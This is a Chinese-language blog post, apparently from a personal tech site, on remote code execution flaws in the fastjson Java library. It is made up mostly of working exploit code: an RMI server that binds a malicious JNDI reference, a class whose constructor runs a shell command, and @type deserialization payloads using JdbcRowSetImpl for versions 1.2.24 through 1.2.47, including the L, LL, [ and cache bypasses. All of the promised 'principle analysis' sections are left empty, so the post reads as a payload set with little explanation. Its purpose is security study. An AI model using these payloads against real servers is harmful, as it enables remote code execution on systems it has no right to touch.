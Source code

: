 ```yaml
---
categories: ["safe"] 
tags: ["fastjson"] 
title: "fastjson远程执行漏洞分析"
# linkTitle: ""
weight: 5
description: >
  
---
```




# 背景

阿里巴巴的fastjson作为java语言的json解析包，因为其易用性在国内被广泛应用。但是其安全性一直被诟病。因此，本文对其多次安全漏洞进行了分析总结。

# fastjson安全特性

fastjson存在一个特殊的key：@type。它可以指定将json字符串反序列化为value中指定的任意类。形如：

```json
{"@type":"com.xx.hello", "hello":"xx"}
```
能通过fastjson的JSON.parseObject方法反序列化为com.xx.Hello DTO类的一个实例对象。
而fastjson的诸多安全漏洞，都是围绕@type产生

# 漏洞案例

详细代码请参考：[java-demo fastjson](https://github.com/chnherb/java-demo/tree/master/src/main/java/com/huangbo/fastjson)

## 服务端代码

1、rmi server

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import lombok.Data;
import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
public class RmiFastJsonSafeServer {
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException {
        Registry registry = LocateRegistry.createRegistry(1099);
//        Reference reference = new javax.naming.Reference("com.huangbo.fastjson.Hello1", "com.huangbo.fastjson.Hello1", "http://127.0.0.1:1099/");
        Reference reference = new javax.naming.Reference("com.huangbo.fastjson.Hello", "com.huangbo.fastjson.Hello", "http://127.0.0.1:1099/");
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(reference);
        registry.bind("hello", referenceWrapper);
    }
}
```
2、hello.java
```java
import lombok.Data;
@Data
public class Hello { // 这里需要为public才能调用到
    String hello;
    public Hello() {
        try {
            Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c",
                    "/Applications/Calendar.app/Contents/MacOS/Calendar"});
        } catch (Exception e) {
        }
    }
}
```

## 1、本地调用示例

```java
// 1、这种调用方式不需要 hello 是public
String json = "{\"@type\": \"com.huangbo.fastjson.Hello\", \"hello\":\"hahaha\"}";
Object obj = JSON.parseObject(json);
System.out.println(obj);待补充
```
### 原理分析

待补充

## 2、远程调用示例

```java
//2、fastjson 1.2.24
//这种调用方式需要 hello 是public
String payload = "{\"@type\": \"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://localhost:1099/hello\",\"autoCommit\":true}";
JSON.parse(payload);
```
### 原理分析

待补充

## 3、Lxx;漏洞

```java
// 3、fastjson 1.2.41
ParserConfig.getGlobalInstance().setAutoTypeSupport(true); // 必须开启才能调用
String payload = "{\"@type\": \"Lcom.sun.rowset.JdbcRowSetImpl;\",\"dataSourceName\":\"rmi://localhost:1099/hello\",\"autoCommit\":true}";
JSON.parse(payload);
```
### 原理分析

待补充

## 4、LLxx;;漏洞

```java
// 4、fastjson 1.2.42
ParserConfig.getGlobalInstance().setAutoTypeSupport(true); // 必须开启才能调用
String payload = "{\"@type\": \"LLcom.sun.rowset.JdbcRowSetImpl;;\",\"dataSourceName\":\"rmi://localhost:1099/hello\",\"autoCommit\":true}";
JSON.parse(payload);
```
### 原理分析

待补充

## 5、[漏洞

```java
// 5、fastjson 1.2.43
ParserConfig.getGlobalInstance().setAutoTypeSupport(true); // 必须开启才能调用
String payload = "{\"@type\": \"[com.sun.rowset.JdbcRowSetImpl\"[{\"dataSourceName\":\"rmi://localhost:1099/hello\",\"autoCommit\":true]}";
JSON.parse(payload);
```
### 原理分析

待补充

## 6、缓存漏洞

```java
// 6、fastjson 1.2.47
String payload = "{" +
        "    \"a\":{" +
        "        \"@type\":\"java.lang.Class\"," +
        "        \"val\":\"com.sun.rowset.JdbcRowSetImpl\"" +
        "    }," +
        "    \"b\":{" +
        "        \"@type\":\"com.sun.rowset.JdbcRowSetImpl\"," +
        "        \"dataSourceName\":\"rmi://localhost:1099/hello\"," +
        "        \"autoCommit\":true" +
        "    }" +
        "}";
JSON.parse(payload);
```

### 原理分析

待补充


# Reference

[Fastjson 1.2.24反序列化漏洞分析](https://www.freebuf.com/vuls/178012.html)

[浅谈Fastjson RCE漏洞的绕过史](https://www.freebuf.com/vuls/208339.html)

[github fastjson远程执行poc](https://github.com/shengqi158/fastjson-remote-code-execute-poc)

[fastjson 远程反序列化poc的构造和分析](http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90)

[基于JdbcRowSetImpl的Fastjson RCE PoC构造与分析](http://xxlegend.com/2018/10/23/%E5%9F%BA%E4%BA%8EJdbcRowSetImpl%E7%9A%84Fastjson%20RCE%20PoC%E6%9E%84%E9%80%A0%E4%B8%8E%E5%88%86%E6%9E%90)

[如何绕过高版本JDK限制进行JNDI注入利用](https://mp.weixin.qq.com/s/Dq1CPbUDLKH2IN0NA_nBDA)

[Fastjson 1.2.67版本刚刚发布即爆出严重漏洞](https://www.donews.com/news/detail/4/3086961.html)

[Spring IOC前世今生之JDNI](https://www.cnblogs.com/binarylei/p/12273010.html)

[JDNI注入学习](https://www.anquanke.com/post/id/233629)
